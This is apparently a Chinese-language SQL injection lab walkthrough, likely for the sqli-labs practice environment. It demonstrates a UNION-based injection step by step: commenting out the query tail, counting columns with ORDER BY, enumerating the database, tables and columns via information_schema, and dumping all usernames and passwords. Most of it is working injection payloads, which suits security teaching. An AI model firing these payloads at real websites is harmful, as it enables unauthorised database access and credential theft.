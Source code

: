 ``#``

``+``相当于空格

那么就可以把后续内容**注释**掉：

`select username,password from table where id=' 2' --+ ' limit 0,1`

即：`select username,password from table where id=' 2'`



**确定有多少个栏目**

`id=2' order by [数字] --+`

完整即：

`select id,username,password from table where id=' 2' order by 10 --+`

发现`order by 3`正常

说明他数据库里有3个栏目



**显示报错位**

`select id,username,password from table where id=' -2' union select 1,2,3 --+ ' limit 0,1`

`id=-2' union select 1,2,3 --+`发现报错位是2,3



**查看数据库的库名**

`id=-2' union select 1,database(),3 --+`

库名是`security`



**根据库名找到表名**

`id=-2' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' limit 0,1 --+`

查到表名`emails，referers，uagents，users`



**根据表名找到列名**

黑客觉得`users`里面的数据很有价值

`id=-2' union select 1,column_name,3 from information_schema.columns where table_schema = 'security' and table_name = 'users' limit 0,1 --+`

发现`users`里有`id，username，password`



黑客需要拿到所有的`username`和`password`的值

`id=-2' union select 1,group_concat(username),group_concat(password) from users  --+`




